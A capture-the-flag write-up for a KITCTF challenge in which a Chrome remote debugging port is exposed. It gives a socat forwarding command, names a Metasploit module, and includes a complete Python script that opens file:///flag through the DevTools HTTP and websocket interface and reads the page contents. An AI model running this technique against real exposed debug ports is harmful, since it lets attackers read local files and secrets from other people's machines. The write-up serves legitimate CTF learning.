


Maybe using Inspect Element will help you!



This challenge only gives you the Dockerfile. In it, it shows that it is using google chrome with a debugger port which is exposed. With the debug port we can send commands.

However, in order to send commands using TCP and not only TLS we need to open a socket:

`socat TCP-LISTEN:1337,fork OPENSSL:how-deep-is-your-love--disciples-2841.ctf.kitctf.de:443`

It basically forwards the local port 1337 to the port exposed.
Then we can use a metasploit module called: `auxiliary/gather/chrome_debugger`

However for some reason i got the error: `error:0A000458:SSL routines::tlsv1 unrecognized name` every time.

First we send a PUT request to json/new endpoint with the file we want to open. Then it will open the file and create a pageid for that file. To open the page we use the websocket library.
The following python script solves it:

```py
import requests
import json
import base64
from urllib.parse import quote_plus
from websockets.sync.client import connect
import websocket

host = 'boulevard-of-broken-dreams--kshmr-7952.ctf.kitctf.de'
url = f'https://{host}'

try:
    r = requests.put(f'{url}/json/new?file:///flag', headers=dict(Host='localhost'))
    
    pageId = json.loads(r.text)['id']
    
    print(pageId)

    wsurl = f"wss://{host}/devtools/page/{pageId}"

    ws = websocket.create_connection(wsurl, suppress_origin=True)

    ws.send(json.dumps({
        "id": 6969,
        "method": "Page.navigate",
        "params": {
            "url": "file:///flag"
        }
    }))

    resp = json.loads(ws.recv())
    print(resp)

    ws.send(json.dumps({
        "id": 6970,
        "method": "Runtime.evaluate",
        "params": {
            "expression": "document.documentElement.outerHTML"
        }
    }))

    resp = json.loads(ws.recv())
    print(resp)

    ws.close()
    
except Exception as e:
    print("Error: e", e)
```

